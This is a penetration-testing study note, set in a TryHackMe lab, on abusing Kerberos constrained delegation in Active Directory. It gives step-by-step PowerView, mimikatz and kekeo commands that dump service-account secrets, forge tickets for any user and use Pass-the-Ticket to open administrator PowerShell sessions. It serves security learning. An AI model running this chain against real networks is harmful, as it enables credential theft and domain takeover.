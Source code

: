 # Kerberos delegation

> Note that "Kerberos delegation" and "Permission delegation" are 2 different terms. When "AD delegation" is mentioned, it usually refers to "Kerberos delegation".

## Resources

1. **Constrained delegation abuse**

{% embed url="https://docs.specterops.io/ghostpack/rubeus/constrained-delegation-abuse" %}

2. **PowerShell remoting**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5" %}

3. **PowerView**

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

4. Kerberos protocol extensions: Service for User (S4U)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/36d103d2-61a6-42d5-a725-74de3205cdaf" %}

## Important notice

The examples shown below uses the [kekeo](https://github.com/gentilkiwi/kekeo) tool, which is not maintained anymore and may not work as expected. However, the command examples are used to illustrate the basic workflow of the process in a lab environment ([TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room), along with explanations based on my understanding.

[Rubeus](https://github.com/GhostPack/Rubeus) is a tool that is heavily adapted from the _kekeo_ project, and provides similar functionalities. Refer to the [kekeo/rubeus](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/kekeo-rubeus) documentation for information on Rubeus.

## Constrained vs Unconstrained delegation

1. **Unconstrained**&#x20;

* service accounts have no limits on the delegation
* this means that they are able to access any services



2. **Constrained**&#x20;

* service accounts can only be delegated to certain specified services
* this means that they can only access certain controlled services

## Constrained Delegation Exploitation steps

### Overview of attack

1. Enumerate the available delegations (PowerSploit `Get-NetUser` cmdlet)

* Delegation permissions can be seen from the `msDS-AllowedToDelegateTo` property



2. Retrieve the credentials of the service account (with constrained delegation permission)

* eg. run mimikatz `lsadump::secrets` as an administrator, etc.



3. We can use the credentials obtained to request for a _Ticket Granting Ticket_ (**TGT**) as the service account user: **kekeo** `tgt::ask`&#x20;

* The newly created **TGT** can be used to request for a _Ticket Granting Service_ (**TGS**) on behalf of a specified user ([Service for User (S4U](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94))): **kekeo** `tgs::s4u`&#x20;

> This is possible due to the Kerberos protocol extension: Service for User and Constrained Delegation protocol that allows an application to obtain a Kerberos service ticket on behalf of a user.&#x20;

This means that we can use the **TGT** for a service account to request for a valid **TGS** for _**ANY**_ user account of our choice, as long as the service account has the proper delegation permission for the service in question (service should be listed in the service account's `msDS-AllowedToDelegateTo` property).

Effectively, this means that once we have stolen the password for a service account (with permission delegations to a particular service), we can create a **TGS** for _**ANY**_ user of our choice, and gain access to that service.&#x20;

If the service is of high value, this can lead to impersonation of high-privilege accounts and potentially lead to full domain compromise.



4. Now that we have obtained the **TGS** for our desired user account and service, we can perform a Pass-the-Ticket attack using the mimikatz `kerberos::ptt` tool, and gain access to that particular service as the specified user.

### General example

#### Step 1

Given that we have breached a machine and gained administrative access, we can first try to enumerate available delegations. To achieve this, we can use the `Get-NetUser` cmdlets from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):&#x20;

```powershell
PS C:\> Import-Module C:\dir\to\PowerSploit\PowerView.ps1
PS C:\> Get-NetUser -TrustedToAuth
```

#### Step 2

Next, we can use **mimikatz** to dump the secrets of the service account (given that there is a service currently running on the host as that particular service account):

```powershell
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

#### Step 3

Now that we have the secret (password), we can use it to retrieve the _Ticket Granting Ticket_ (TGT) as the service account. Subsequently, we can generate the _Ticket Granting Service_ (TGS) for a particular user account and service that our identified service account (step 1) can delegate.

> Note that we will first retrieve the **TGT** as the service account, which will be used in the subsequent **TGS** request to retrieve the **TGS** for a user of our choice — administrator account, etc.

{% code overflow="wrap" %}
```powershell
kekeo # tgt::ask /user:<service_account> /domain:<domain> /password:<password>
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```
{% endcode %}

#### Step 4

Now that we have retrieved the _Ticket Granting Service_ (TGS) for our user of choice and desired service, we can use it to perform a _Pass-the-Ticket_ attack. This will allow us to authenticate to the service we have identified earlier.

{% code overflow="wrap" %}
```powershell
mimikatz # privilege debug
mimikatz # kerberos::ptt ...
mimikatz # exit
```
{% endcode %}

### Example: exploiting PowerShell remoting

According to the [TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room, [PowerShell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5) uses the HTTP and WSMAN services as well. This means that we can use the TGT we have retrieved to create TGS for both HTTP and WSMAN, before performing a _Pass-the-Ticket_ attack, which will allow us to gain a remote session on a target machine.

{% code overflow="wrap" %}
```powershell
PS> Get-Netuser -TrustedToAuth
...
userprincipalname        : svcIIS@za.tryhackme.loc                          
name                     : IIS Server   
...
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}
...
```
{% endcode %}

> Note that we have to generate the TGS for both the HTTP and WSMAN services

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:http/<target>
Ticket in file 'TGS_http_xxxx'

kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:wsman/<target>
Ticket in file 'TGS_wsman_xxxx'
```
{% endcode %}

Perform _Pass-the-Ticket_ with the newly created TGS:

```powershell
mimikatz # kerberos::ptt TGS_http_xxxx
mimikatz # kerberos::ptt TGS_wsman_xxx

mimikatz # exit
```

> Refer to the "PowerShell remoting" resource in the Resources section above

Given that we generate a TGS (**kekeo**) as a user that is an administrator on our target machine, we will now have administrative access.

{% code overflow="wrap" %}
```powershell
PS C:\> New-PSSession -ComputerName <computer_name>
...

PS C:\> Enter-PSSession -ComputerName <computer_name>
[xxxx]: PS C:\Users\<username> whoami
user_xxx
```
{% endcode %}

